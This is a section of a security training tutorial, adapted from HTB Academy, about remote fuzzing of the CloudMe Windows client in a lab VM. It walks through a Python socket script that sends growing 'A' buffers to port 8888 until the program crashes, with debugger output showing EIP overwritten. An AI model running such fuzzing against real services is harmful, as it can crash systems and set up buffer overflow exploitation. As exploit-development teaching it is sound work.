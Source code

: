 We have so far completed a local buffer overflow exercise, which covered all essential parts of a stack-based buffer overflow exercise. When it comes to remote exploitation, the main difference would be in exploit scripting, while the core parts of buffer overflow exploitation are the same.

---

## Debugging A Remote Program

Whether we are debugging a local program or one that listens for remote connections, we will have to install and debug it locally on our Windows VM. Once our exploit is fully developed, we can then run it on the remote service without needing local access. If done correctly, the exploit should work, as we will see later.

This time, we will be debugging a program called `CloudMe`, an end-user tool for a file sharing service, found on the Desktop of the Windows VM below. As a file-sharing service, this tool listens on a port for any updates from the file server. We can see this if the tool is running, and we list listening ports in `Powershell`:

  Remote Fuzzing

```powershell-session
PS C:\htb> netstat -a

...SNIP...
TCP    0.0.0.0:8888           0.0.0.0:0              LISTENING
[CloudMe.exe]
```

As we can see, the service is listening on port `8888`, and it has also established a connection to a remote server. We can use the `netcat` program on the Desktop to interact with this port and see if it accepts any parameters:

  Remote Fuzzing

```powershell-session
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
?
PS C:\Users\htb-student\Desktop> .\nc.exe 127.0.0.1 8888
help
```

We try sending a few parameters, and it closes the connections without providing us with any output. So, let's try to debug it and fuzz it with large strings to see how it would handle them.

To debug a program that listens on a remote port, we will follow the same process we did earlier in the module, run the program, and attach to or open it directly in `x32dbg`. If you have not yet disabled all breakpoints in `x32dbg`, you should, as this program contains many breakpoints. Refer to the `Fuzzing` section to see how to do so.

---

## Fuzzing Remote Port

Once our program is running and we are attached to it through `x32dbg`, we can start fuzzing it and try to crash it. Unlike local fuzzing, where we wrote our payloads into a file and then opened the file in our application or manually copied our payload into a text field in the program, with remote fuzzing, we can automate this process through our Python exploit.

We'll create a new script called `win32bof_exploit_remote.py` and start by adding a couple of variables for `IP` and `port`, such that we can easily change them if we want to use the script on another server. Then, we will write our fuzzing function `def fuzz():`. We want to send increments of large strings, starting from `500` bytes long and incrementing by `500` at each iteration, until we send a long enough string that crashes the program. To accomplish this, we'll loop in a range from `0` to `10,000` with increments of `500`, as follows:

Code: python

```python
import socket
from struct import pack

IP = "127.0.0.1"
port = 8888

def fuzz():
    for i in range(0,10000,500):
        buffer = b"A"*i
        print("Fuzzing %s bytes" % i)
```

The print statement helps us know the current fuzzing buffer size so that when the program eventually crashes, we know what length caused it to crash.

Next, we need to connect to the port each time and send our payload to it. To do so, we have to import the `socket` library as we did at the beginning of our code above, and then establish a connection to the port with the `connect` function, as follows:

Code: python

```python
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((IP, port))
```

With that, we should be ready to send our buffer, which we can do through `s.send(buffer)`. We will also need to wrap our loop in a `try/except` block, so that we can stop the execution when the program crashes and does not accept connections anymore. Our final `fuzz()` function should look as follows:

Code: python

```python
def fuzz():
    try:
        for i in range(0,10000,500):
            buffer = b"A"*i
            print("Fuzzing %s bytes" % i)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((IP, port))
            s.send(buffer)
            s.close()
    except:
        print("Could not establish a connection")

fuzz()
```

Note: In our case, the program is closing the connection after each input, as we saw earlier, so we are establishing a new connection at each loop iteration. If we could persist the connection, like an ftp or email client, it would be better to establish the connection before the loop, and then loop the `s.send(buffer)` function.

Tip: As our server is vulnerable at the entry point after establishing the connection, we are directly sending our payload. It is also possible to interact with the server and pass data like login credentials or certain parameters to reach the vulnerable function, by using `send` and `recv`. You can read more about `socket` functions in the [Official Documentation](https://docs.python.org/3/library/socket.html).

We run our script and see the following:

  Remote Fuzzing

```cmd-session
Fuzzing 0 bytes
Fuzzing 500 bytes
...SNIP...
Fuzzing 9000 bytes
Fuzzing 9500 bytes
```

We see that the entire script ran without crashing the listening services, as port `8888` was still listening throughout our fuzzing. However, if we check our `x32dbg` debugger, we see that the front-end `cloudme` program crashed, and its `EIP` was overwritten with our `A`'s buffer:

![Remote Fuzz](https://academy.hackthebox.com/storage/modules/89/win32bof_remote_fuzz.jpg)

This indicates that the actual listening service may not be vulnerable since our input never crashes it. However, the front-end program must also be processing this input (e.g., for syncing files), and it is vulnerable to a buffer overflow, which we can exploit through the listening service. This is a unique case that shows that if an input is processed at multiple locations/programs, we must be sure to debug all of them, as only one of them may be vulnerable.

---

## Gradual Fuzzing

We face the issue here because our program never stops sending payloads since the listening service never crashes. So, how would we be able to know at which buffer length the program crashed?

We can gradually send our buffer by adding a `breakpoint()` after `s.send(buffer)`, such that when we can manually continue by hitting `c`, we can see whether our input crashed the program and overwrote `EIP`.

Tip: You can have both `x32dbg` and the python IDLE side-by-side, so that you can immediately notice when the program crashes.

So, we will add our breakpoint to our exploit, restart the program in `x32dbg`, and start gradually fuzzing the program:

  Remote Fuzzing

```cmd-session
Fuzzing 0 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
Fuzzing 1000 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(13)fuzz()
-> s.send(buffer)
(Pdb) c
Fuzzing 1500 bytes
> c:\users\htb-student\desktop\win32bof_exploit_remote.py(12)fuzz()
-> breakpoint()
(Pdb) c
...
```

Once the program crashes and `EIP` gets overwritten, we know that the last amount of bytes we sent is what crashed the program and that the program is vulnerable to a buffer overflow.

In the next section, we'll continue with the remaining steps we previously followed to exploit buffer overflow vulnerability.

**Credit:** This information was adapted from an excellent guide on [HTB Academy](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-windows-x86). Be sure to check out the original post for more details.

